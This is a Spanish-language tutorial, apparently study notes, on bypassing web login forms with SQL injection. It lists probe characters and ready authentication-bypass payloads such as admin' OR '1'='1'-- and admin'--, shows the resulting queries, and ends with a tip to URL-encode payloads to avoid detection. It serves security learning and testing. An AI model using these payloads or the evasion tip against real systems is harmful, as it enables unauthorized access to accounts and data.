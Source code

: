 ### Subvertir la Lógica de Consultas con Inyección SQL

---

### **Introducción a la Inyección SQL**

La inyección SQL permite manipular consultas SQL originales inyectando operadores como `OR` o utilizando comentarios para alterar la lógica de las consultas. Esto puede ser utilizado, por ejemplo, para **bypassear autenticaciones** en aplicaciones web.

---

### **Bypass de Autenticación**

#### **Escenario básico**

Dado un formulario de inicio de sesión, la consulta original podría ser:

sql

CopiarEditar

`SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';`

1. Si los registros coinciden, la condición `AND` devuelve `true`, validando la autenticación.
2. Si no coinciden, la condición devuelve `false`, y la autenticación falla.

---

### **Paso 1: Descubrir vulnerabilidad SQLi**

Para probar si el formulario es vulnerable a SQLi, se pueden inyectar los siguientes payloads básicos en el campo `username` o `password`:

- **Payloads comunes**:
    - `'` (comilla simple)
    - `"` (comilla doble)
    - `#` (comentario)
    - `;` (final de consulta)
    - `)` (paréntesis)

Ejemplo:

sql

CopiarEditar

`' UNION SELECT 1,2,3--` 

- **Error esperado**: Si al inyectar una comilla simple (`'`), la aplicación devuelve un error SQL, indica que la entrada del usuario no está correctamente sanitizada. Ejemplo de consulta malformada:

sql

CopiarEditar

`SELECT * FROM logins WHERE username=''' AND password='password';`

---

### **Paso 2: Manipular la lógica con `OR`**

Podemos alterar la consulta para que siempre devuelva `true` usando el operador `OR` junto con una condición siempre verdadera, como `'1'='1'`.

1. **Payload en el campo `username`**:
    
    sql
    
    CopiarEditar
    
    `admin' OR '1'='1`
    
    **Consulta resultante**:
    
    sql
    
    CopiarEditar
    
    `SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='password';`
    
    **Lógica**:
    
    - Si el `username` es `'admin'` o si `'1'='1'` (siempre verdadero), la consulta devuelve filas válidas.
    - La aplicación concede acceso.

---

### **Paso 3: Autenticación sin usuario válido**

Si no conocemos un `username` válido, podemos inyectar directamente en el campo `password` para subvertir toda la lógica:

1. **Payload en el campo `password`**:
    
    sql
    
    CopiarEditar
    
    `' OR '1'='1`
    
    **Consulta resultante**:
    
    sql
    
    CopiarEditar
    
    `SELECT * FROM logins WHERE username='notAdmin' AND (password='' OR '1'='1');`
    
    **Lógica**:
    
    - Aunque el `username` no existe (`notAdmin`), el operador `OR` en el `password` hace que la condición global sea `true`.

---

### **Payloads comunes para bypass de autenticación**

1. **Inyección en `username`**:
    
    sql
    
    CopiarEditar
    
    `admin' OR '1'='1'--`
    
2. **Inyección en `password`**:
    
    sql
    
    CopiarEditar
    
    `' OR '1'='1'--`
    
3. **Inyección para comentario**:
    
    sql
    
    CopiarEditar
    
    `admin'--` 
    
4. **Sin necesidad de usuario válido**:
    
    sql
    
    CopiarEditar
    
    `' OR '1'='1'--`
    

---

### **Diagrama lógico**

1. **Consulta original**:
    
    sql
    
    CopiarEditar
    
    `SELECT * FROM logins WHERE username='admin' AND password='password';`
    
    - Condición con `AND`: ambas deben ser `true`.
2. **Consulta alterada**:
    
    sql
    
    CopiarEditar
    
    `SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password='password';`
    
    - El `OR '1'='1'` anula la condición `AND`.

---

### **Notas importantes**

1. **Uso de comentarios (`--`)**:
    
    - Los comentarios permiten ignorar el resto de la consulta original.
    - Ejemplo:
        
        sql
        
        CopiarEditar
        
        `admin'--` 
        
2. **Precedencia de operadores**:
    
    - El operador `AND` tiene mayor precedencia que `OR`.
    - La evaluación sigue esta lógica:
        - Primero, se evalúa el `AND`.
        - Luego, se evalúa el `OR`.
3. **Evitar detección**:
    
    - Usa codificación URL para los payloads:
        - `'` → `%27`
        - `--` → `%2D%2D`

---

### **Conclusión**

- La inyección SQL permite alterar consultas originales para bypass de autenticación.
- Usando operadores como `OR` y comentarios (`--`), puedes hacer que la consulta siempre devuelva `true`.
- Es importante probar diferentes combinaciones de payloads según el comportamiento de la aplicación y las restricciones implementadas.